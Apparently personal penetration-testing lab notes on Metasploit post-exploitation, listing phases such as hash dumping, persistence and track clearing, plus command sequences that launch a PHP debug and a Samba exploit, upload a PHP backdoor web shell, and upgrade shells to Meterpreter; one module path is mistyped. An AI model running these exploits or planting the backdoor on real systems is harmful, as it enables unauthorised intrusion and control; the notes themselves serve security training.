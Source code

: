 post exploitation refers to the action performed on the target system after initial access has been obtained 
- the post exploitation phase of a penetration test consists of various techniques like
- local enumeration
- privilege escalation
- dumping hashes
- establishing persistence
- clearing your tracks
- pivoting

# Meterpreter Basics
	dirb http://ip
	curl http://ip/phpinfo.php
	msfconsole
	use exploit/unix/http/debug_unauth_exec
	set RHOSTS ip
	set LHOST ip
	exploit
	pwd
	ls
	lls
	cat /app/flag1
	edit /app/flag1
	cd "Secret Files", cat flag2
	download flag5.zip
	unzip flag5.zip
	checksum md5 /bin/bash
	getenv PATH
	search -d /usr/bin -f "ckdo"
	lcd tools
	upload /usr/share/webshells/php/php-backdoor.php



## Upgrading command shells to meterpreter shells
	ifconfig
	msfconsole
	use exploit/linux/samba/is_known_pipename
	set RHOSTS ip
	exploit
	CTRL + Z
	use port/multi/manage/shell_to_meterpreter
	set SESSION 1
	set LHOST ip
	exploit
	sessions 2


